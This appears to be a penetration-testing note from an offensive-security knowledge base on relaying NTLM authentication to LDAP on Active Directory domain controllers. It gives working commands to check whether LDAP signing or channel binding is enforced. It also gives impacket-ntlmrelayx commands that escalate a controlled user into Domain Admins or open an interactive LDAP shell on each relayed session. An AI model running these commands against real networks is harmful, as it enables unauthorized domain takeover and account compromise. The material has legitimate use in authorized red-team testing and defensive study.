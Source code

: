 ```yaml
---
title: NTLM Relay to LDAP
---
```


The [[notes/network/ldap]] service on domain controllers can be used as [[notes/ad/ntlm-relay-sink]].

Verify that LDAP Signing or LDAPS Channel Binding is not enforced.

=== "[[notes/tools/netexec]]"
    ~~~ bash
    netexec ldap dc01.corp.local -u jdoe -p passw0rd -M ldap-checker
    ~~~

=== "[LdapRelayScan](https://github.com/zyn3rgy/ldaprelayscan)"
    ~~~ bash
    python3 ./LdapRelayScan.py -method BOTH -u jdoe -p passw0rd -dc-ip 172.21.4.50
    ~~~

When relaying computer accounts use [[notes/ad/rbcd]] or [[notes/ad/shadow-credentials]].
When relaying user accounts use [[notes/ad/shadow-credentials]].

When relaying a domain admin add a user you already control to the domain admins group.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    sudo impacket-ntlmrelayx -smb2support --no-dump --escalate-user jdoe --target ldaps://dc01.corp.local
    ~~~

Alternatively you can open an interactive LDAP shell for each successful relay.

=== "[[notes/tools/impacket]]"
    ~~~ bash
    sudo impacket-ntlmrelayx -smb2support --interactive --target ldaps://dc01.corp.local
    ~~~

References:

- [Additional LDAP Interactive Shell Features](https://github.com/fortra/impacket/pull/1076), LDAP shell now has `add_computer`, `change_password` and `get_laps_password` commands
- [twitter.com/Geiseric4/status/1657681157046124544](https://twitter.com/Geiseric4/status/1657681157046124544), relay HTTP to LDAP with `ntlmrelayx.exe`
- [Bypassing LDAP Channel Binding with StartTLS](https://web.archive.org/web/20221220093350/https://offsec.almond.consulting/bypassing-ldap-channel-binding-with-starttls.html), only if LDAP signing is not required
- [LDAP authentication in Active Directory environments](https://web.archive.org/web/20231104171250/https://offsec.almond.consulting/ldap-authentication-in-active-directory-environments.html)
